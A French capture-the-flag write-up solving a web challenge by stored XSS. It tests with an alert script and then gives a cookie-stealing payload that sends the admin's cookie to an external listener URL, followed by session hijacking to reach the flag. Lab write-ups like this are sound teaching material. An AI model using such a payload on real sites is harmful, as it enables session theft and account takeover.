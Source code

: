 <h1>Contact Me !</h1>

<h3>Description :</h3>
Un petit développeur a mis en place un serveur où vous pouvez le contacter.
Malheureusement, une des pages n'est pas accessible, et j'ai vraiment envie de savoir ce qu'elle cache... Vous pouvez le faire pour moi ?
<br/>

<h3>Solution</h3>
Quand on voit le titre du challenge, on imagine assez facilement qu'il va falloir effectuer une attaque de type XSS pour pouvoir avoir accès à la page secrête.
En allant sur la page, elle revoie : <b>This page is PRIVATE!</b>

On essaye une attaque de base pour vérifier que les scripts sont exécutés par la page :
`<script>alert(1)</script>`

Le script fonctionne !
Pour accèder à la page secrète, il va sûrement falloir voler le cookie de l'administrateur.
Comme les scripts sont éxécutés par l'admin, si on écrit un payload pour renvoyer le cookie de la page, celui qui va être renvoyé le sien.

Payload : <br/>
`<script>document.write('<img src="https://hookb.in/9X1qnEMbdnI600eMoWM7?cookie='+document.cookie+'">Im a cookie stealer :p</img>');</script>`

Ce script permet de dermander à l'administrateur de renvoyer le cookie à l'adresse `https://hookb.in/9X1qnEMbdnI600eMoWM7` qui est un écouteur de requêtes.

Après envoi du payload, on retrouve bien sur l'endpoint le cookie renvoyé par l'admin : <br/> 
`cookie: PHPSESSID=3f1f8431f0ed4202893dc4cb19a36021`

Au niveau du referer dans la requête c'est intéressant de voir cela : <br/>
`referer: http://localhost/index.php?botSenpai=sess_93db8da8292c8ce9bd44f193450eb8f2`

On peut maintenant essayer de se connecter à la page admin.php en changean notre cookie.

Et voilà le flag : `Hero{b3_c4r3ful_w1th_xss_!!}`
